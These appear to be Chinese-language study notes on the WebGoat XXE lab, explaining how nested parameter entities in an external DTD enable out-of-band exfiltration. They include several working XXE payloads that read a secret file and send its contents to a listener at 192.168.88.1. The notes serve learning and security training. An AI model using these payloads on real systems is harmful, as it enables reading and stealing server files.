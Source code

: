![alt text](image-13.png)  

---  


1. 在外部DTD中，send实体嵌套定义在int实体中，这是为了将后面的%secret;展开，如果不嵌套，而是直接用下面方式定义  
```xml
<!ENTITY % send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>
```  
那么test.txt中的内容将是字符串"%file;"  xml解析器时只对实体的值解析，SYSTEM后面的字符串作为资源路径不被解析，嵌套后SYSTEM作为字符串不被识别为关键字，解析器将后面的实体展开  

---  

2. 实体int通过外部DTD定义，据说是因为xml解析时对内部dtd和外部dtd有区别，对内部定义不允许嵌套，
```xml
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
%int;%send;
]>
<comment>
<text>hello</text>
</comment>
```  
test.txt的内容不会发生变化，因为send没有被定义，没有发出请求  

---  

3. send并不一定需要是参数实体，也可以是通用实体，用如下方式也可以得到目标内容  
```xml
<!ENTITY % int "<!ENTITY send SYSTEM 'http://192.168.88.1/get.php?a=%secret;'>">
```  
```xml  
<?xml version="1.0"?>
<!DOCTYPE comment[
<!ENTITY % secret SYSTEM "file:///home/webgoat/.webgoat-2023.8//XXE/webgoat/secret.txt">
<!ENTITY % out SYSTEM "http://192.168.88.1/kk.txt">
%out;%int;
]>
<comment>
<text>hello&send;</text>
</comment>  
```  
参数实体和通用实体有两个明显的区别，参数实体一般只在dtd内部使用，引用时使用%，通用实体一般只在xml部分（不能在dtd内），引用时使用&

---  